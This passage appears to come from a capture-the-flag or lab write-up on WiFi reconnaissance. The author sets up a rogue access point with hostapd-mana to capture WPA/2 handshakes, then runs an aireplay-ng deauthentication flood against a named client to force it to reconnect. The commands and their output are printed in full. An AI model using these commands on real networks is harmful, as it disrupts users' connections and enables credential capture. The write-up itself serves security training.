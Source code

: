 ```shell
sudo hostapd wifi-IT.conf 
Configuration file: wifi-IT.conf
MANA: Captured WPA/2 handshakes will be written to file 'wifi-IT.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-IT"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED
```

WiFi is enabled but no clients connect. I can deauth already connected client:

![](Images/Recon13_03.png)

```shell
sudo aireplay-ng -deauth 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52
```

I receive what I want:

![](Images/Recon13_04.png)
